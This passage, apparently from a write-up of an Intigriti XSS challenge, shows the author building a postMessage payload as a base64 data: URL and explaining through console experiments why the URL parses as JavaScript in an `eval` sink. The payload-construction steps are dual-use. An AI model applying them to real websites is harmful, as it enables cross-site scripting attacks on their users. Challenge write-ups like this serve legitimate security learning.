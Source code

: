Yes! Now I get a JavaScript error from inside `executeCtx`.

```
(index):31 Uncaught TypeError: Failed to set an indexed property on 'Window': Index property setter is not supported.
    at Function.assign (<anonymous>)
    at executeCtx ((index):31)
```

This is because the data is a string and we're running into issues on the `Object.assign(window, e.data);` line. Let's just send an empty object to begin with. The payload `<script>window.parent.postMessage({}, "*")</script>` results in the URL [https://challenge.intigriti.io/#data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+](https://challenge.intigriti.io/#data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+)

The result is `Uncaught SyntaxError: Unexpected end of input` thrown by the `eval(url)` line. So it's unable to parse valid javascript out of the `url` variable which has the value `data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+`. That doesn't look like JavaScript to me either!

### Turning the URL into JavaScript

Now the objective is to get the `eval(url)` to parse valid JavaScript (I'm not thinking about XSS yet). I know pretty much anything can be valid JavaScript (see [JSFuck](http://www.jsfuck.com/) if you need to be convinced) so I stepped out of the challenge page for a minute and ran `eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+')` in my console. Same error, as expected. "Unexpected end of input" means that the parser was expecting another token but reached the end of the string. My URL ends with a `+` which doesn't really make a lot of sense as a final character in a JavaScript expression so let's remove it. It will make my base64 string invalid but we'll come back to that later.

```javascript
> eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ')
VM42:1 Uncaught ReferenceError: text is not defined
    at eval (eval at <anonymous> ((index):1), <anonymous>:1:6)
    at <anonymous>:1:1
```

`text` is not defined? What? At first I didn't get where the `text` was coming from but I rolled with it. Ok sure... I ran `text = 1` then reran my `eval`.

```javascript
> text = 1
1
> eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ')
VM70:1 Uncaught ReferenceError: html is not defined
    at eval (eval at <anonymous> ((index):1), <anonymous>:1:11)
    at <anonymous>:1:1
```

`html`? Oh! That's right! The URL without the `+` at the end **is** valid javascript. Still don't see it? Here is the URL with indentation and comments:

```javascript
data: // a label for a goto
text/html; // divides the variable text by the variable html
base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ // evalutes the base64 variable and the PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ variable then returns the latter (see , operator)
```
